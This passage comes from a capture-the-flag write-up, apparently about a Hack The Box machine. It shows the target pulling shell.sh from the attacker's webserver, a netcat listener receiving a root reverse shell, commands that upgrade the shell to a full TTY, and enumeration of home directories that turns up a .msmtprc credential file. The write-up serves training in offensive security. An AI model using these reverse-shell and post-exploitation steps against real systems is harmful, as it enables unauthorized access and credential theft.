 
First there’s a request at the webserver:

    
    
    10.10.10.224 - - [08/Jun/2021 17:57:01] "GET /shell.sh HTTP/1.1" 200 -
    

Then a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.224] 43642
    bash: cannot set terminal process group (59): Inappropriate ioctl for device
    bash: no job control in this shell
    root@smtp:~#
    

Python isn’t installed on the box, but I can use `script`:

    
    
    root@smtp:~# script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null 
    root@smtp:~# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@smtp:~# 
    

## Shell as j.nakazawa on srv01

### Enumeration

I’m already root on this host, but there isn’t anything interesting in
`/root/`:

    
    
    root@smtp:~# ls -la
    total 8
    drwx------. 1 root root 151 Jun  9 10:41 .
    drwxr-xr-x. 1 root root  96 Dec  8  2020 ..
    lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .bash_history -> /dev/null
    -rw-r--r--. 1 root root 570 Jan 31  2010 .bashrc
    -rw-r--r--. 1 root root 148 Aug 17  2015 .profile
    lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .viminfo -> /dev/null
    

On this host, there’s one user, and not many files:

    
    
    root@smtp:/home/j.nakazawa# find . -ls
    find . -ls
     53833505      0 drwxr-xr-x   1 j.nakazawa j.nakazawa       59 Dec  9  2020 .
     51627972      0 lrwxrwxrwx   1 root       root              9 Dec  9  2020 ./.bash_history -> /dev/null
     53833507      4 -rw-r--r--   1 j.nakazawa j.nakazawa      220 Apr 18  2019 ./.bash_logout
     53833508      4 -rw-r--r--   1 j.nakazawa j.nakazawa     3526 Apr 18  2019 ./.bashrc
     53833509      4 -rw-r--r--   1 j.nakazawa j.nakazawa      807 Apr 18  2019 ./.profile
       358589      4 -rw-------   1 j.nakazawa j.nakazawa      476 Dec  8  2020 ./.msmtprc
       358586      0 lrwxrwxrwx   1 root       root              9 Dec  9  2020 ./.viminfo -> /dev/null
    